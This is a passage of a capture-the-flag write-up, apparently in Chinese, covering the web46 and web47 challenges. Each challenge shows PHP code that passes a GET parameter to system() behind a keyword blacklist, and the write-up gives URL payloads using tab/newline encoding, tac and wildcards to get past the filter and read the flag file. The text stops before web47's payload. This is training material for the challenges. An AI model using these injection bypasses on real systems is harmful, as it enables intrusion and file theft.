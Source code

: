 
```
?c=tac%09f*%0a

```

## web46

> 
源码


```
&lt;?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." &gt;/dev/null 2&gt;&amp;1");
    }
}else{
    highlight_file(__FILE__);
} 

```

> 
Payload


```
?c=tac%09fla?.php%0a

```

## web47

> 
源码


```
&lt;?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." &gt;/dev/null 2&gt;&amp;1");
    }
}else{
    highlight_file(__FILE__);
}

```

> 
Payload
